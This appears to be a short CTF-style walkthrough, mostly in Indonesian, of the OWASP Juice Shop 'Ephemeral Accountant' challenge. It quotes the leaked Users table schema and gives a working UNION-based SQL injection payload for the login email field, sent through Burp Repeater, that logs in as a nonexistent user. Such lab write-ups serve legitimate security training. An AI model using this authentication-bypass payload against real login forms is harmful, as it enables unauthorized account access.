

# Ephemeral Accountant - OWASP Juice Shop
Website: [OWASP Juice Shop - Injection](https://demo.owasp-juice.shop/#/score-board?categories=Injection)

## Soal <br>
Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Step-by-step 
1. Di challenge Database Schema kita dapat mengetahui seluruh isi database nya. Disitu kita dapat mencari  query untuk create user. 
```sql
{
      "id": "CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)",
      "name": 2,
      "description": 3,
      "price": 4,
      "deluxePrice": 5,
      "image": 6,
      "createdAt": 7,
      "updatedAt": 8,
      "deletedAt": 9
    }
```
2. Cari endpoint user login dan buat query untuk login akun yang diminta 
```sql 
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, 'localhost' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```

3. Setelah *Send to Repeater* ubah emailnya menjadi payload yang telah dibuat dan jalankan. 
Muncul token di sebelah kanan yang menandakan bahwa authorization berhasil.

